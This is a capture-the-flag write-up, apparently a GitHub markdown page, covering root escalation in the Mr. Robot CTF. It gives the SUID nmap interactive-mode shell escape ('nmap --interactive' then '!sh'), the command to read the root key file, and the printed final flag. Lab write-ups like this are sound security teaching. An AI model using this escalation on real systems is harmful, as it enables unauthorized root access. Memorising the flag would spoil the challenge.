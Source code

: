 
# Privilege Escalation and Root Access

## 1. Gaining Root Access

After obtaining access as the **robot** user and retrieving the second key, the final step is to escalate privileges to root and access the last key.

### Methods for Privilege Escalation:

- **SUID Binaries Exploitation**
- **Cron Jobs Exploitation**

For this case, we will use **SUID binaries**.

### Exploiting Nmap for Root Access

1. Check if **nmap** has the SUID bit set:
    
    ```bash
    /usr/local/bin/nmap --interactive
    ```
    
    If nmap runs in interactive mode, it is vulnerable.
2. Enter the following command to gain a root shell:
    
    ```bash
    !sh
    ```
    
    This successfully escalates privileges to root.

![[key3_photo1.png]]

### Retrieving the Final Key

Once root access is obtained, retrieve the last key by running:

```bash
cat /root/key-3-of-3.txt
```

**Key 3:** `04787ddef27c3dee1ee161b21670b4e4`

![[key3_photo2.png]]
## 2. Alternative Direct Root Exploit

An alternative method exists that allows direct root access from the **daemon** user, skipping the need to switch to **robot**.

### Steps:

1. From the **daemon** user, run:
    
    ```bash
    /usr/local/bin/nmap --interactive
    ```
    
2. Execute:
    
    ```bash
    !sh
    ```
    
    This immediately grants root access.
3. Retrieve the root key:
    
    ```bash
    cat /root/key-3-of-3.txt
    ```
    

---

## Conclusion

This completes the **Mr. Robot CTF** by successfully:

- Exploiting **nmap SUID** for root access.
- Retrieving the final key to complete the challenge.



